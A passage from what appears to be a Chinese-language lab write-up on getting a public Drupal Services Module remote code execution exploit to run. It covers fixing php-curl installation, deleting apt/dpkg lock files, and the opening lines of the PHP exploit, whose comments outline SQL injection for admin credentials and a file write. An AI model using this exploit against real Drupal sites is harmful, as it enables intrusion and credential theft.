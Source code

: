 缺少一个模块，导致exp运行出错。
```
apt-get -y install php-curl
apt-get upgrade php 更新到PHP 7.3.2-3 ，问题解决了
```
#### 问题2：
```
apt-get -y install php-curl
E: Could not get lock /var/lib/dpkg/lock - open (11: Resource temporarily unavailable)
E: Unable to lock the administration directory (/var/lib/dpkg/), is another process using it?
```
解决方案：
```
rm /var/lib/dpkg/lock

重新执行安装命令后，提示以下消息
E: Could not get lock /var/cache/apt/archives/lock - open (11: Resource temporarily unavailable)
E: Unable to lock directory /var/cache/apt/archives/

rm /var/cache/apt/archives/lock 即可
```
## 修改php exp
https://www.exploit-db.com/exploits/41564，不知道为什么，该exp是不能直接运行的，需要修改很多处位置，这个实验我做了很久，就是卡在php代码上。还是需要一点php的知识。

```
#!/usr/bin/php

<?php

# Drupal Services Module Remote Code Execution Exploit

# https://www.ambionics.io/blog/drupal-services-module-rce

# cf

#

# Three stages:
修改第一处，“endpoint”；以及下面另外一处的注释
# 1. Use the SQL Injection to get the contents of the cache for current endpoint

#    along with admin credentials and hash

# 2. Alter the cache to allow us to write a file and do so

# 3. Restore the cache

# 

# Initialization

error_reporting(E_ALL);

define('QID', 'anything');

define('TYPE_PHP', 'application/vnd.php.serialized');

define('TYPE_JSON', 'application/json');

define('CONTROLLER', 'user');

define('ACTION', 'login');

```